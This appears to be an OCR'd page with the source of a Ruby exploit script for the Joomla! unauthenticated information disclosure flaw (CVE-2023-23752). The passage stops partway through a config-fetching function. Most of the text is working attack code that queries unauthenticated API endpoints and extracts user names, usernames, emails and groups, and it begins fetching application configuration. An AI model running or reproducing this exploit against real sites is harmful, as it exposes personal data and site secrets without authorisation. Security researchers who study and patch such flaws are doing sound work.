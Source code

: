 ```ruby
# gems
require 'httpx'
require 'docopt'
require 'paint'

doc = <<~DOCOPT
  #{Paint['Joomla! < 4.2.8 - Unauthenticated information disclosure', :bold]}

  #{Paint['Usage:', :red]}
    #{__FILE__} <url> [options]
    #{__FILE__} -h | --help

  #{Paint['Parameters:', :red]}
    <url>       Root URL (base path) including HTTP scheme, port and root folder

  #{Paint['Options:', :red]}
    --debug     Display arguments
    --no-color  Disable colorized output (NO_COLOR environment variable is respected too)
    -h, --help  Show this screen

  #{Paint['Examples:', :red]}
    #{__FILE__} http://127.0.0.1:4242
    #{__FILE__} https://example.org/subdir

  #{Paint['Project:', :red]}
    #{Paint['author', :underline]} (https://pwn.by/noraj / https://twitter.com/noraj_rawsec)
    #{Paint['company', :underline]} (https://www.acceis.fr / https://twitter.com/acceis)
    #{Paint['source', :underline]} (https://github.com/Acceis/exploit-CVE-2023-23752)
DOCOPT

def fetch_users(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/users?public=true"
  http.get(vuln_url)
end

def parse_users(root_url, http)
  data_json = fetch_users(root_url, http)
  data = JSON.parse(data_json)['data']
  users = []
  data.each do |user|
    if user['type'] == 'users'
      id = user['attributes']['id']
      name = user['attributes']['name']
      username = user['attributes']['username']
      email = user['attributes']['email']
      groups = user['attributes']['group_names']
      users << {id: id, name: name, username: username, email: email, groups: groups}
    end
  end
  users
end

def display_users(root_url, http)
  users = parse_users(root_url, http)
  puts Paint['Users', :red, :bold]
  users.each do |u|
    puts "[#{u[:id]}] #{u[:name]} (#{Paint[u[:username], :yellow]}) - #{u[:email]} - #{u[:groups]}"
  end
end

def fetch_config(root_url, http)
  vuln_url = "#{root_url}/api/index.php/v1/config/application?public=true"
  http.get(vuln_url)
```